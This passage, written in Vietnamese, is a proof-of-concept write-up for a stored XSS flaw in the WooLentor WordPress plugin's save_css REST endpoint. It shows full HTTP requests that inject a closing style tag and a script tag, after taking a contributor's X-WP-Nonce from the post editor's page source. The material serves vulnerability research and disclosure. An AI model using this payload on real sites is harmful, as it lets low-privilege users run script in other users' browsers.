 ### Detect XSS

Sử dụng user có role **contributor** tạo 1 post bất kì, ghi nhớ id của post đó.

Gửi **POST** request đến endpoint `http://localhost/wp-json/woolentor/v1/save_css` với XSS payload

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Response**

```json
{
    "code":"rest_forbidden",
    "message":"Sorry, you are not allowed to do that.",
    "data":{
        "status":401
    }
}
```

👉 Thiếu header **X-WP-Nonce** để phân quyền người dùng. Ta mở source HTML (<kbd>Ctrl</kbd>+<kbd>U</kbd>) trang chỉnh sửa bài viết:

```
view-source:http://localhost/wp-admin/post.php?post=<post_id>&action=edit
```

Tìm `wpApiSettings` trong source và lấy giá trị `nonce`

![wpApiSettings](api_search.png "wpApiSettings")

Gửi request với **X-WP-Nonce** có giá trị vừa lấy được

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
X-WP-Nonce: f79ec79e4b
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```
